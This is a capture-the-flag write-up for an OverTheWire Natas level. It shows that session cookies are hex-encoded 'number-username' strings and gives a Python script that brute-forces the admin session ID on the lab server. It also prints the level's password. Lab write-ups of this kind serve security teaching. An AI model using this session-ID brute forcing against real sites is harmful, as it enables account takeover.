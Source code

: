 Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr

## Natas 20

> The page shows this form:  
> ![form](pics/natas/2025-07-10-10-57-14.png)  
> This time we have no source code.

Let's login as `admin` and check the PHPSESSIONID cookie. We get `PHPSESSID=33302d61646d696e`. If we login as a regular user (anything but username=admin, in this case `ad`), we get `PHPSESSID=3439382d6164`.  
If we check the session IDs, we can see that the admin session ID is `33302d61646d696e`, which is the hex representation of the string `30-admin`. The regular user session ID is `3439382d6164`, which is the hex representation of the string `49-ad`.  
So if we want to login as admin, we have to brute force the first part of the session ID. Assuming that the limit is the same as in natas19, we can try all the numbers from 0 to 640 and append `-admin` to it, then convert it to hex and set it as the `PHPSESSID` cookie.

```python
import requests
from requests.auth import HTTPBasicAuth

URL = "http://natas19.natas.labs.overthewire.org/index.php?debug=1"
auth=HTTPBasicAuth('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')
maxID = 640

for id in range(maxID+1):
    id = f'{id}-admin'.encode().hex()
    cookie = f'PHPSESSID={id}'
    print(f'Trying {cookie}', end='\r')
    headers = {'Content-Type': 'application/x-www-form-urlencoded', 'Cookie': cookie}
    r = requests.post(url=URL, headers=headers, auth=auth)
    if "to retrieve credentials for natas20" not in r.text:
        print(f'\n\n{r.text}')
        break
```
